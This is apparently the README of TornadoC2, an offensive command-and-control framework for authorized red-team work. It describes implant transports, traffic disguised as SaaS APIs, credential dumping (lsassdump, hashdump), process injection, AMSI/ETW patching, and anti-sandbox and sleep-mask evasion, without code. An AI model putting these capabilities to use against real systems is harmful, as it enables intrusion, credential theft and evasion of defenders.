

# TornadoC2

A pull-based C2 with ten native transports, concurrent
multi-profile handlers, and an honest threat model. The agent is a
single Go binary with every behavioural property baked in at build
time — no runtime config file, no environment variable, no
command-line arguments. Tasks and results are ECDSA-signed end to
end. The transports are HTTPS, QUIC/HTTP/3, WebSocket, DNS TXT,
DNS-over-HTTPS, ICMP, WireGuard, SMB-pivot, TCP-bind, and
TCP-reverse.

---

## Legal Notice

Use this software only on systems you own or on systems where you
hold **explicit written authorization**. You are solely responsible
for compliance with applicable laws and organizational policies.
The authors and contributors accept no liability for misuse, data
loss, or legal consequences arising from the use of this project.

---

<details>
<summary>Table of Contents</summary>

- [Introduction](#introduction)
- [Why TornadoC2 Exists](#why-tornadoc2-exists)
  - [What that shaped](#what-that-shaped)
  - [What it is not](#what-it-is-not)
  - [What comes next](#what-comes-next)
- [Capability summary](#capability-summary)
- [Key Features](#key-features)
- [Design Philosophy](#design-philosophy)
  - [Compile-time configuration](#compile-time-configuration)
  - [Startup-time configuration](#startup-time-configuration)
  - [Queue-based execution](#queue-based-execution)
  - [Artifact discipline on the target](#artifact-discipline-on-the-target)
  - [Graceful degradation](#graceful-degradation)
  - [Encryption without loss of auditability](#encryption-without-loss-of-auditability)
  - [Contribution paths with no core coupling](#contribution-paths-with-no-core-coupling)
  - [Concurrent multi-profile handlers](#concurrent-multi-profile-handlers)
  - [Profile paths as first-class routing](#profile-paths-as-first-class-routing)
- [Operational Security](#operational-security)
- [Threat Model](#threat-model)
- [Architecture](#architecture)
- [Transports](#transports)
- [Pivot Transports](#pivot-transports)
- [Requirements & Installation](#requirements--installation)
  - [Go build bootstrap](#go-build-bootstrap)
  - [Dependency installers](#dependency-installers)
- [Quick Start](#quick-start)
- [Deployment Playbook](#deployment-playbook)
- [Build Config File](#build-config-file)
- [Staged Payloads](#staged-payloads)
- [Remote Build](#remote-build)
- [Operator Reference](#operator-reference)
- [GUI Operator Console](#gui-operator-console)
- [In-Memory Execution](#in-memory-execution)
- [BOF Registry](#bof-registry)
- [C2 Profile Catalogue](#c2-profile-catalogue)
- [SOCKS5 Pivoting](#socks5-pivoting)
- [Migration](#migration)
- [Scheduled Tasks](#scheduled-tasks)
- [Task Queue Introspection](#task-queue-introspection)
- [Bulk Operations](#bulk-operations)
- [Beacon Aliases and Tags](#beacon-aliases-and-tags)
- [Beacon Viewers](#beacon-viewers)
- [Credential Vault](#credential-vault)
- [Engagement and Per-Beacon Notes](#engagement-and-per-beacon-notes)
- [Webhook Notifications](#webhook-notifications)
- [Session Graph](#session-graph)
- [Desktop Notifications](#desktop-notifications)
- [Wire Protocol](#wire-protocol)
- [Native Commands](#native-commands)
- [Cryptography](#cryptography)
- [Key Management](#key-management)
- [Backup and Recovery](#backup-and-recovery)
- [OPSEC Profiles](#opsec-profiles)
- [C2 Profiles](#c2-profiles)
  - [Concurrent multi-profile handlers](#concurrent-multi-profile-handlers)
  - [Placeholders](#placeholders)
  - [Encoding](#encoding)
  - [Placement](#placement)
  - [Status codes](#status-codes)
  - [Cookie name](#cookie-name)
  - [Response headers](#response-headers)
  - [DNS label shaping](#dns-label-shaping)
  - [Stager path](#stager-path)
- [Extending TornadoC2](#extending-tornadoc2)
  - [Adding a transport](#adding-a-transport)
  - [Adding a C2 profile](#adding-a-c2-profile)
  - [Adding a WASM extension](#adding-a-wasm-extension)
  - [The contribution-path summary](#the-contribution-path-summary)
- [Beacon Extensions](#beacon-extensions)
- [Server Hardening](#server-hardening)
- [Team Chat](#team-chat)
- [Loot Store](#loot-store)
- [Dead-man's Switch](#deadmans-switch)
- [Session Logging](#session-logging)
- [Troubleshooting](#troubleshooting)
- [TLS & mTLS Configuration](#tls--mtls-configuration)
- [License](#license)

</details>

---

## Introduction

TornadoC2 is a **pull-based C2**. The agent does not hold a live
socket; it wakes on its own schedule, checks in with the server,
retrieves queued work, executes it, and goes back to sleep. The
operator queues commands; the beacon picks them up on its next
check-in.

This design trades immediacy for resilience. A live shell dies when
the network flaps; a beacon reconnects on its next wake-up and
resumes. A live shell leaves a persistent footprint on the wire; a
beacon's traffic pattern is bounded by its sleep interval. The
framework is built for long-haul engagements where the implant has
to survive reboots, retry on failure, and self-destruct on a
schedule.

The implant is a single Go binary, cross-compiled from the operator
machine. There is no runtime configuration file, no environment
variable, no registry key. The callback URL, sleep interval, kill
date, C2 profile, and evasion set are all baked in at build time. A
captured binary contains everything it needs to run, and nothing the
operator did not put there.

The framework is compiled for Linux and Windows today, on amd64 and
arm64. macOS support is on the near-term list, along with additional
native commands and additional evasion primitives. The
[Capability summary](#capability-summary) below lists what is
available in the current version.

---

<p align="center">
  
</p>

<p align="center">
  <em>The PySide6 operator console. Beacon table on top, log and
  chat on the bottom, one command bar for both. The terminal REPL
  is the reference implementation; the GUI is a presentation layer
  over the same <code>Client</code> methods.</em>
</p>

---

## Why TornadoC2 Exists

I used Sliver for a year. It is a good tool — that needs saying before anything else, because what follows is not a criticism of it. The problem was that I could not change the agent's shape. A Sliver beacon looks like a Sliver beacon: one fingerprint, one polling schedule, one protocol family, one runtime configuration that sits on disk. I could point it at a different URL. I could not make it something else. That is the right trade for engagements where a generalist shape is fine. It was the wrong trade for the networks I was working on.

I tried Mythic. The modularity is genuine and the community work behind it is impressive. I could not work in it. Every interaction went through a browser tab. I spend eight hours a day in a console, and the tool was not in the console. I stopped after a week.

I looked at Cobalt Strike and Brute Ratel. Both are excellent and both are priced for teams and institutions. I am one person. I do not have a team budget.

The tools that existed were good at things I did not need. The features they had were not the features I was looking for, and the ones I was looking for were not in any of them. I needed an agent that could be a specific shape for a specific target, a console that stayed close to my hands, and a handler where rotating a profile mid-engagement did not kill every live session. I also wanted the operator side to be treated as a real part of the framework — not an agent-first tool with a coordination layer added later, but a team server that a group of operators could actually run an engagement on, with the roles, the audit trail, and the shared state that professional work requires.

The reasonable response was to build one.

### What that shaped

The design choices in this framework are consequences of that decision, not independent preferences.

**Compile-time configuration.** Every property is baked into the binary at build time. No config file, no environment variable, no command-line argument. A defender who captures the agent cannot read a config and change the callback to a sinkhole. An operator who loses track of the binary cannot have the configuration drift. A new agent for a new target is an artifact for one engagement and no other.

**Startup-time handler configuration.** Profiles are read once, at handler start, and never again. No hot-reload, no runtime dispatch state, no "reload profiles" command. The handler runs the profile set the operator chose, for the duration of the run.

**Ten transports.** Because the egress path is not always HTTPS. A network that permits HTTP/3 but blocks TCP/443, or permits ICMP but nothing else, is a real network, and it is not a network a generalist tool can be configured to work against. Ten is the number of transports I have actually needed at various points.

**Concurrent multi-profile support.** Restarting a team server mid-engagement kills every live session. Running two servers doubles the operational surface and confuses the team. The framework assumes the operator wants to build new agents against a different profile while old agents keep running against the old one, and it was built to make that workflow the default rather than an exception.

**A peer-to-peer pivot model with its own cryptographic identity.** The parent-to-child hop carries tasking and results. A compromise of that hop is a compromise of the operation. Transparent relays forward bytes without authenticating the sender between the two ends. That was never acceptable, and the pivot model is the alternative.

**A team server that treats the team as the point.** The operator side is a coordination server, not a single-user console with a team feature bolted on. RBAC with a `guardian` role distinct from `admin`, because terminating an engagement is a different responsibility from running one. A hash-chained audit log with per-mutation correlation on every response, because what a team did during an engagement matters after the engagement ends. A shared credential vault where validation runs on the beacon rather than on the team server, because a bind attempt from the wrong network either fails silently or succeeds against a system the engagement is not authorised to touch. Owner-restricted task cancel so one operator cannot quietly remove another's queued work. Session viewers so an operator knows when someone else is on the same beacon. Engagement-wide and per-beacon notes, a content-addressed loot store, a chat with file sharing and forensic preservation, webhook notifications, and a dead-man's switch that only the guardian can arm. None of these touch the agent. All of them assume the operator is working as part of a team, even when they are not.

**Two frontends, no web UI.** A terminal REPL as the reference implementation, and a Qt GUI as a presentation layer over the same client. Not a browser tab. Not a second protocol. Not a plugin framework. The console stays close to the operator's hands.

**An honest README.** Every transport section ends with a threat model that says what the transport protects against and what it does not. Every feature that is not implemented is named as such. The sections on limits are not hedging. They are the record of what a defender looks for and what this framework does not do about it.

### What it is not

This is not a better Sliver. Sliver is good, and I have no interest in competing with the team that built it. This is not a lighter Mythic. Mythic's modularity is the right answer for a research environment. This is not a cheaper Cobalt Strike. Cobalt Strike has earned its position over a decade.

This is the tool I wanted to exist when I started looking for one. It fits the specific shape of the engagements I run. If your engagements have the same shape, it will fit you the same way. If they don't, one of the alternatives will fit you better, and that is the correct outcome. The framework is honest about what it is for.

The rest of this document describes how it works. This section describes why it exists. Both are true, and neither makes sense without the other.

### What comes next

- **macOS support.** Cross-compiles today; the platform-specific
  native verbs and the sleep-mask implementation are what remains.

- **More native commands.** Depth on the execution and operational
  sides. Same principle as the current set: in-process, standard library, no
  child process.

---

## Capability summary

- **Ten transports.** HTTPS with server-authenticated TLS, optional
  mutual TLS, and optional RootCA pinning; **QUIC / HTTP/3** for
  networks that permit HTTP/3 but block or proxy direct TCP; a DNS
  TXT transport for restricted egress paths; **DNS over HTTPS** for
  networks that filter UDP/53 but permit HTTPS to a public resolver;
  **ICMP echo** for the rare network where only `ping` is allowed
  outbound; **WebSocket over TLS** for networks where browser-shaped
  traffic is permitted but plain HTTPS is proxied and inspected; a
  **WireGuard UDP tunnel** for networks that filter TCP but permit
  arbitrary UDP; an SMB named-pipe pivot for Windows segments with no
  outbound access; a TCP bind pivot for hosts the operator can reach
  but which cannot reach the team server; and a TCP reverse pivot for
  the inverse case — a parent that can listen on a TCP port the child
  is able to reach. HTTP, DNS, and DoH can be combined in one binary
  with automatic failover between them. WebSocket, QUIC, and
  WireGuard are single-transport in this version — each carries its
  own session state and is not mixed with another transport in the
  same binary.
- **Transport abstraction.** Adding another transport means
  writing one Python listener class and one Go client class.
  Those two classes hold the transport's entire design — wire
  parsing, chunking, reassembly, session handling, error paths.
  Around them sits a small amount of mechanical glue that
  follows the same template for every transport: a config field
  on the agent, a package var, one `case` in the agent's
  dispatch switch, a linker-flag receiver and copy in the
  stageless build, the builder's validation and flag emission,
  the remote build manager's parameter pass-through, and the
  handler's CLI flag and listener-startup call. There is no
  dispatch table and no engine code to change, and the operator
  client is unaffected — the client talks to the server API and
  the transport is a server-to-agent concern. Ten transports
  ship in-tree as proof of the pattern.
- **Concurrent multi-profile support.** A single handler serves
  every C2 profile under `profiles/c2/` at once, dispatching each
  incoming request to the profile that declared its path. A
  beacon built against `chrome` and a beacon built against
  `slack` check in against the same listener, on the same port,
  on the same certificate, and each receives the response shape
  its own profile declared. There is no "active profile" for the
  handler — the path is the profile. Narrow to a single profile
  with `--beacon-profile <name>` if strict isolation is wanted.
  The profile set is fixed at startup: profiles are read once
  when the handler boots and never reloaded at runtime. Adding
  or changing a profile requires a restart, which the queue and
  the session registry both survive. This is different from the
  single-profile-per-server model every other framework uses,
  and from a hypothetical hot-reload model that would silently
  invalidate every deployed agent built against a changed shape.
- **Wire encryption.** Every request and response body is wrapped in
  an AES-256-GCM envelope keyed off a P-256 ECDH exchange. A passive
  observer or TLS-terminating MITM sees ciphertext.
- **Signed identity at check-in.** Every agent signs its own identity
  with its build-time ECDSA key, and the server verifies the
  signature before pinning the session's public key. First-contact
  impersonation on plaintext builds is closed.
- **Malleable response shapes.** C2 profiles can wrap task and result
  bodies in a template that looks like a legitimate analytics
  response. A proxy inspecting the traffic sees a plausible JSON
  blob, not an obvious C2 array. The payload can be encoded as
  `base64`, `base64url`, `hex`, or NetBIOS-style lowercase letters,
  and can be placed in the response body, an HTTP response header,
  or a `Set-Cookie` value. The profile also declares the per-role
  HTTP status codes the listener returns, the session cookie name,
  and any additional response headers a real server would send. The
  DNS and DoH transports additionally read a `dns_label` block that
  renames the three verb characters and changes the per-chunk
  payload length.
- **Staged payloads.** A ~4 MB first-stage stager fetches a full
  agent, decrypts it in memory, and executes it without writing the
  payload to disk.
- **uTLS browser ClientHello fingerprinting** (`chrome`, `firefox`,
  `safari`) to close the JA3/JA4 gap that otherwise identifies a Go
  client in a single packet capture.
- **ECDSA P-256 task signing** (server → agent) and result signing
  (agent → server) with trust-on-first-use public key pinning.
- **Cookie-based session tokens** with HMAC proof. No custom `X-`
  headers, no enumerable integer IDs.
- **Native in-process verbs.** Inspection — `cat`, `ls`, `find`,
  `grep`, `head`, `tail`, `stat`, `strings`, `hexdump`, `sha1`,
  `sha256`, `md5`, `cksum`, `wc`, `nl`, `rev`, `sort`, `uniq`, `tr`,
  `base64`, `which`, `readlink`, `realpath`, `du`. System — `ps`,
  `id`, `env`, `pwd`, `whoami` (with `/priv` on Windows), `hostname`,
  `uname`, `df`, `uptime`, `date`, `getpid`, `getppid`, `ifconfig`,
  `netstat`, `arp`, `route`, `users`, `groups`, `av-list`,
  `screenshot` (Windows). File ops — `mkdir`, `rm`, `cp`, `mv`,
  `chmod`, `ln`, `touch`, `gzip`, `gunzip`. Network — `curl`,
  `resolve`, `nc`. Credential collection — `hashdump` (SAM + SYSTEM
  on Windows, `/etc/passwd` + `/etc/shadow` on Linux), `enablepriv`
  (Windows), `lsassdump` (Windows). Execution — `exec`, `sh`, and,
  on Windows, `make_token` + `rev2self` for holding a
  NEW_CREDENTIALS impersonation token, and `runas` for spawning a
  child in a fresh logon session. Every one executes in the agent's
  own process with no `fork`, no `execve`, no Sysmon EventID 1.
  `lsassdump` is the one exception to the *low-signal* character of
  the set — see [What this tool does not claim](#what-this-tool-does-not-claim)
  — but its transport is still in-process: no subprocess, no
  PowerShell, no `Add-Type`. `runas` is an EXECUTION-category verb
  and forks by design; that is the same category `exec` and `sh`
  already live in.
- **Chunked file transfer** with SHA-256 verification.
- **In-memory PE (Windows) and ELF (Linux) execution.**
- **In-memory .NET assembly execution** (`execute-assembly`) on
  Windows. The CLR is hosted in a **sacrificial worker process**
  spawned by the beacon, not in the beacon process itself. The
  worker receives the target assembly as a base64 string, hosts the
  CLR, and runs the assembly through a fixed managed bootstrap that
  calls `Assembly.Load(byte[])`; the target never touches disk.
  When the target returns or calls `Environment.Exit` — which most
  of the Sharp* family does — the worker dies and the beacon
  survives. The beacon reads the captured output from the worker's
  output file and posts it as the task result. The sacrificial
  binary is a fresh copy of the beacon by default, settable
  per-session with the `spawnto` verb. Donut remains a fallback for
  `--format shellcode` builds.
- **Two injection backends for `migrate <pid>`.** The default is
  `CreateRemoteThread` on Windows and `ptrace` on Linux — the
  historical path. `--method apc` selects remote APC injection on
  Windows, which queues the shellcode to the target's existing
  threads through `NtQueueApcThread`. The signal profile is
  different: no new thread is created and no remote-thread-creation
  event fires. It is not a bypass — `NtQueueApcThread` is itself
  instrumented — but it moves the beacon out of the category an EDR
  watches for by default. See
  [Migration › Injection backends](#injection-backends).
- **Windows BOF execution** through an in-process Go COFF loader
  (AMD64 and I386 relocations, full Beacon API surface), with a
  shared server-side registry that any operator can browse. No
  PowerShell, no `csc`, no `Add-Type`, no temp file.
- **Inline script execution** (`pyexec`, `psexec`, `shexec`) with
  the source piped through stdin.
- **Sandboxed WASM extension host** for capabilities the operator
  adds after deployment.
- **Compile-time OPSEC profiles** bundling anti-sandbox, anti-debug,
  anti-VM, AMSI/ETW patching, string obfuscation, garble, and UPX.
- **Sleep mask.** Four modes, dispatched per build:
  `rc4` and `aes-ctr` encrypt the executable segment on
  Linux and Windows through a native sleep stub; `cronos`
  and `hwbp` are Windows-amd64 only and encrypt the same
  segment via a fiber context switch or a hardware
  breakpoint plus VEH handler, so the encrypt/decrypt
  window never runs Go code.
- **Named C2 profiles** that decouple the HTTP fingerprint from the
  build, with a `c2-profiles` command that lists them from the
  operator console.
- **Runtime-configurable sleep, jitter, and working-hours window.**
- **Server-side scheduled tasks** with persistent storage and
  optional output retention.
- **Automatic reconnection** on 4xx/5xx.
- **Kill date / self-destruct** with self-deletion of the on-disk
  binary.
- **Multi-operator team server** with role-based access control,
  remote operator management, audit-chained credentials, per-operator
  password second factor (scrypt-derived), and a runtime-armable
  dead-man's switch with state wipe and optional host shutdown or
  reboot.
- **Operator-console features** that never touch the agent: a shared
  credential vault, engagement-wide and per-beacon notes, beacon
  aliases and tags, task queue introspection with owner-restricted
  cancel, per-operator webhook notifications to Slack / Discord /
  Telegram (an operator manages their own hooks; an admin manages
  every hook), and a multi-line paste mode for the script verbs.
- **Two operator frontends.** The terminal REPL is the default and
  the reference implementation. A PySide6 (Qt 6) GUI is opt-in with
  `--gui` and dispatches every command through the same `Client`
  methods — a presentation layer, not a second client.

**Supported target platforms:** Linux and Windows (primary), amd64
and arm64. The Windows build additionally supports 32-bit `386`.
BOF and .NET assembly execution are Windows-only.

---

## Key Features

| Category | Capabilities |
|----------|-------------|
| **Implant** | Go binary, cross-compiled from the operator machine · No runtime config file, no environment variables, no command-line arguments — every property is baked in at build time · Windows PE, Windows DLL, Linux ELF, Donut shellcode, or stager output · amd64 and arm64 · Migration via `migrate --self` (detach a copy of the on-disk binary) or `migrate <pid>` / `migrate <name> --method default\|apc` (inject the agent's loader-wrapped shellcode into a foreign process) — the session survives either way, with the same machine fingerprint and the same beacon ID · `--method apc` selects remote APC injection on Windows; the default remains `CreateRemoteThread` / `ptrace` |
| **Transports** | **HTTP**: HTTPS with server-authenticated TLS by default, optional mTLS, optional RootCA pinning, uTLS browser ClientHello · **QUIC**: HTTP/3 over UDP, same C2 protocol as HTTP on a different carriage; reaches networks that permit HTTP/3 but block or proxy direct TCP; requires `aioquic` on the handler and pulls `quic-go` into the agent · **WebSocket**: one wss:// connection per check-in cycle, same JSON body as HTTP inside the frame; reaches networks where a browser-shaped client is expected and a raw HTTPS GET is not; requires `simple-websocket` on the handler and pulls `coder/websocket` into the agent · **DNS**: TXT queries to an authoritative zone, payload base64url in the QNAME · **DoH**: the DNS wire format POSTed to a public resolver over HTTPS; blends with browser DoH, escapes UDP/53 filters · **ICMP**: echo request/response carrying a base64url JSON envelope with larger per-chunk payloads than DNS; works when only `ping` is allowed outbound · **WireGuard**: the C2 protocol carried over a userspace WireGuard device; reaches networks that permit UDP/51820 but filter or proxy TCP/443; requires `pyroute2` and `CAP_NET_ADMIN` on the handler and pulls a userspace WireGuard stack into the agent · **HTTP+DNS / HTTP+DoH / DNS+DoH**: two transports in one binary with automatic failover after N transport-level failures · **SMB**: Windows named pipe carrying an AEAD-encrypted pivot session, tunnelled through a parent beacon over the parent's own transport · **TCP bind**: child listens, parent dials, same pivot session tunnel · **TCP reverse**: parent listens, child dials, same pivot session tunnel · Transports coexist; a single handler runs all of them simultaneously. WebSocket, QUIC, and WireGuard are single-transport in this version. **Adding a new transport is two classes plus mechanical glue.** The two classes — one Python listener, one Go client, both inheriting from the existing base — hold the entire design. The glue is a fixed template that every transport follows across seven files: a config field, a package var, one switch case, a stageless linker receiver and copy, a builder flag emitter, a build-manager copy, and a handler flag. No engine code changes, and the operator client is unaffected |
| **Pivot model** | A parent beacon carries traffic for one or more children that cannot reach the team server directly · Peer-to-peer handshake with an engagement-wide ECDSA P-256 pivot keypair · The parent proves possession of the pivot private key; the child proves possession of its own identity signing key · A fresh ECDH exchange derives independent per-direction session keys (HKDF-SHA256, info string `tornadoc2-pivot-v2`) · Every subsequent C2 frame is an AES-256-GCM AEAD frame with a monotonic sequence number in the additional data · Transparent to the operator: pivoted children appear with normal beacon IDs · Wire encryption on the child's own C2 envelope is preserved — the parent carries it opaquely · The parent's own transport to the team server continues to use server-ECDH wire encryption |
| **Wire encryption** | AES-256-GCM envelope on every request and response body · Key derived from a P-256 ECDH exchange · Backward-compatible: an agent built without the embedded ECDH public key speaks plaintext |
| **Identity signing** | Every check-in carries an ECDSA signature over `machine_id\|hostname\|username\|os\|ts` · Server verifies before pinning · Closes first-contact impersonation on plaintext builds · Signed payload excluded from the machine fingerprint |
| **Malleable shaping** | C2 profile `shaping` block controls the JSON structure of check-in, tasks, and results · Payload encoding is selectable per shape: `base64`, `base64url`, `hex`, or `netbios` · Payload placement is selectable per shape: body, an HTTP response header, or a `Set-Cookie` value · Per-role HTTP status codes (`status` block), the session cookie name (`cookie_name`), and additional response headers (`response_headers`) are all profile-controlled · The DNS and DoH transports read a `dns_label` block that renames the three verb characters and changes the per-chunk payload length · The stager honours a `stager.path` block as its payload fetch URL · Proxy inspection sees a fake but well-formed JSON blob |
| **Wire protocol** | Three endpoints: `POST /beacon`, `GET /tasks`, `POST /results` · Plus `/stage/<name>` for stager payload delivery · JSON bodies with base64 for binary fields · Cookie-based session tokens with HMAC proof · Response padding to random bucket sizes |
| **Native execution** | `cat`, `ls`, `find`, `grep`, `head`, `tail`, `stat`, `strings`, `hexdump`, `sha1`, `sha256`, `md5`, `cksum`, `wc`, `nl`, `rev`, `sort`, `uniq`, `tr`, `base64`, `gzip`, `gunzip`, `which`, `readlink`, `realpath`, `du`, `ps`, `id`, `env`, `pwd`, `whoami` (with `/priv` on Windows), `hostname`, `uname`, `df`, `uptime`, `date`, `getpid`, `getppid`, `ifconfig`, `netstat`, `arp`, `route`, `users`, `groups`, `av-list`, `screenshot`, `mkdir`, `rm`, `cp`, `mv`, `chmod`, `ln`, `touch`, `curl`, `resolve`, `nc`, `hashdump`, `enablepriv`, `lsassdump` execute in-process · `readfile` as an alias for `cat` · Windows identity: `make_token` builds a NEW_CREDENTIALS token and holds it for subsequent `exec`; `rev2self` drops it; `runas` spawns a child in a fresh logon session under supplied credentials |
| **Network verbs (in-process)** | `curl` — HTTP/HTTPS client with `-X`, `-H`, `-d`, `-k`, `-i`, `-L`, `-o`, `-m`, `--max-size` · `resolve` — DNS lookups for A, AAAA, CNAME, MX, NS, TXT, PTR · `nc` — TCP connect/banner grab with `-z`, `-w`, `--send` · No `/bin/curl`, no `dig`, no `/bin/nc` |
| **Command execution** | `exec` spawns a child process · `sh` routes a command through a stdin-piped shell so the command never appears in argv |
| **In-memory payloads** | `execmem <path> exe` on Windows — in-process Go PE loader: maps the image, resolves imports, applies base relocations, walks the TLS directory, executes the entry point; no PowerShell, no temp file · `execmem <path> elf` on Linux (`memfd_create`, `/dev/shm` fallback) · `execute-assembly <local.exe>` runs a .NET assembly by spawning a **sacrificial worker process**. The worker hosts the CLR, loads the target with `Assembly.Load(byte[])`, and captures stdout/stderr. When the target calls `Environment.Exit` — the Sharp* family does, at the end of `Main` — the worker dies and the beacon survives. Only a fixed, non-secret bootstrap touches disk, and only under `%TEMP%` with `FILE_FLAG_DELETE_ON_CLOSE`. The sacrificial binary is settable per-session with the `spawnto` verb; the default is a fresh copy of the beacon binary · On-disk source unlinked before invocation on every path |  
| **Inline scripts** | `pyexec`, `psexec`, `shexec` deliver script source base64-encoded in the task and pipe it to `python3 -`, `powershell.exe -Command -`, or `/bin/sh -s` via stdin · Source never appears in argv · `--stdin` variant reads the source from the operator's terminal in paste mode |
| **BOF / COFF** | Windows-only execution · `bofs` (main-scope) manages the **shared server-side registry** — `list`, `add`, `remove` · `bof` (beacon-scope) runs a registered BOF by name, or a local `.o` file by path · Arguments packed according to the BOF's declared `bof_pack` format when one is registered, falling back to a single space-joined `z` string · The registry is persisted to `logs/.tornadoc2_bofs.json`, with raw COFF bytes under `bofs/<name>.o` · Server never executes the bytes — the beacon's in-process Go COFF loader does |
| **C2 profile catalogue** | `c2-profiles` (alias `c2p`) lists every profile the server can build against, with the fields an operator needs to pick one — the three request paths, the User-Agent, and the shaping roles the profile declares · `c2-profiles <name>` prints the raw JSON so it can be copied as a starting point for a new profile or pasted into a build config · Thirty profiles ship in-tree covering enterprise SaaS (Teams, Slack, Salesforce, ServiceNow-adjacent APIs), developer infrastructure (GitHub, GitLab, Stripe, Sentry-adjacent APIs), and consumer applications (Instagram, TikTok, Netflix, YouTube), plus a dedicated DNS-transport profile · **Multi-profile handler.** The listener builds a per-path shape map at startup and serves every profile under `profiles/c2/` concurrently. Agents built against different profiles coexist on one handler, each getting the shape its own profile declared — same port, same certificate, same process. No team-server restart to change profiles, no second listener for a second fingerprint, no "active profile" state. Contrast with Cobalt Strike, Sliver, Havoc, and Brute Ratel, which all bind one profile per team server. Thirty profiles ship in-tree; the handler scales to any number without architectural change
| **Scheduling** | Configurable sleep interval and jitter · Re-check-in on session expiry · Kill date enforcement · Working-hours window · Server-side recurring tasks with persistent storage and optional output retention |
| **Cryptography** | ECDSA P-256 task signing · ECDSA result signing · ECDSA identity signing at check-in · P-256 ECDH wire key agreement · Trust-on-first-use public key pinning per session |
| **OPSEC** | Compile-time evasion profiles · Anti-sandbox, anti-debug, anti-VM heuristics · AMSI/ETW patching · Sleep mask with four modes: `rc4` and `aes-ctr` on Linux and Windows, `cronos` and `hwbp` on Windows amd64 · No kernel timer, no APC, no new thread in either Windows mode · Indirect syscalls · Self-deletion of the on-disk binary · String obfuscation · Garble · UPX · Shell history suppression · Jittered first check-in |
| **Chunked transfer** | Upload: `truncate` / `writechunk` / `sha256file` · Download: `filesize` / `readchunk` / `sha256file` · Chunk sizes jittered within `[base/2, base]` · Batched enqueue to respect the task queue cap · Local and remote SHA-256 verified |
| **Extensions** | WASM extension host with a four-function ABI · wazero interpreter, no JIT to `PROT_EXEC` · 16 MiB memory ceiling per module · Runtime push, hot-swap, and unload over the ECDSA-signed task channel · Sub-verbs: `list`, `info`, `load`, `unload`, `list-loaded`, `call` |
| **Staged payloads** | A ~4 MB stager that checks in, fetches a full agent, decrypts it in memory, and executes it · Linux uses `memfd_create` with a `/dev/shm` fallback · Windows uses `FILE_FLAG_DELETE_ON_CLOSE` · Optional AES-256-GCM per-payload encryption · ECDSA signature verification on the served payload |
| **Build system** | `beacon-build` — wizard, non-interactive flags, or a JSON config file · Per-build selection of OPSEC profile, C2 profile, TLS fingerprint, transport, kill days, work hours, mTLS bundle · Config-file builds override evasion toggles one key at a time |
| **Remote build** | Operators with `beacon.build` compile from their own client · The server does the compile and streams the binary in 512 KiB chunks · Path whitelist prevents reading arbitrary files · Rate-limited per operator · Audited with the binary's SHA-256 |
| **Remote operator management** | Admin operators can list, add, remove, set-role, reset passwords for, and export config files for viewer and operator accounts over the API · Admin accounts are protected: they can only be created, removed, demoted, or have their password reset from the local console · Every mutation is audited with a role-aware vocabulary |
| **Operator password** | Optional second factor per operator · scrypt (N=131072, r=8, p=1, dklen=32) with a **per-operator random salt** generated by the server at operator creation and rotated on every password change · Client prompts once per session, derives the same key, and HMAC-signs every request over `ts ‖ nonce ‖ path` · Server enforces ±300 s timestamp window · Config carries `auth_algo`, `auth_params`, and `auth_salt` for cross-version compatibility |
| **Beacon aliases and tags** | Per-beacon friendly names and tags, stored server-side and keyed on the beacon ID so they survive a beacon that goes stale and reconnects · Aliases are unique across live sessions · `use <alias>` resolves to the beacon's ID · The `beacons` table and the attached-console prompt both render the alias · Every change audited under `beacon.alias` / `beacon.tag` |
| **Credential vault** | Engagement-wide shared store for credentials collected during the operation · Thirteen kinds — `plaintext`, `ntlm`, `lm`, `sha1`, `aes256`, `aes128`, `krbtgt`, `ticket`, `cert`, `token`, `bearer`, `ssh_key`, `other` · Search by user, domain, or source path · **Beacon-side validation** via `creds validate` — the check runs on the target, not on the team server, so a bind attempt never leaks from the wrong network · Status vocabulary distinguishes `valid`, `invalid`, `locked`, `expired`, `error`, and `unsupported` · Values are **never written to the audit chain** — the chain records the record ID, user, domain, kind, and source beacon only · `creds.use` capability |
| **Engagement and per-beacon notes** | Two scopes: engagement-wide notes stored in `logs/notes.json`, and per-beacon notes stored under `logs/bnotes/<bid>.json` · Per-beacon notes survive a stale-and-reconnect cycle because they are keyed on the beacon ID, not the fingerprint · Full-text search across engagement notes · `notes.use` capability |
| **Task queue introspection and cancel** | `tasks` lists every pending task with verb, arguments, queue time, and the operator who queued it · An **owner-restricted cancel** lets an operator remove a task they queued before the beacon picks it up · System-queued tasks (scheduler fires, server auto-staging) can only be cancelled by an admin · Refused cancellations are audited with `outcome=denied` |
| **Bulk operations** | `killall --all \| --stale \| --tag <tag> \| --ids a,b,c` queues self-destruct on every matching beacon in one request · Two-step confirmation — the client prints the match set and requires the operator to type `yes` or the count · The server writes one `beacon.use` entry per target plus a single `beacon.kill` summary entry · Refuses an empty match set rather than returning success with zero kills · Same `beacon.use` capability as a single `kill` |
| **Beacon viewers** | Every `beacons` poll carries the caller's currently-attached beacon ID · The server keeps a per-`(beacon, operator)` heartbeat with a 30 s TTL, and the `beacons` table gains a `VIEWERS` column showing every other operator attached to the same beacon · Attaching to a new beacon implicitly clears the old entry · A crashed client falls out of the roster on the TTL; `detach` clears explicitly · Presence is not audited |
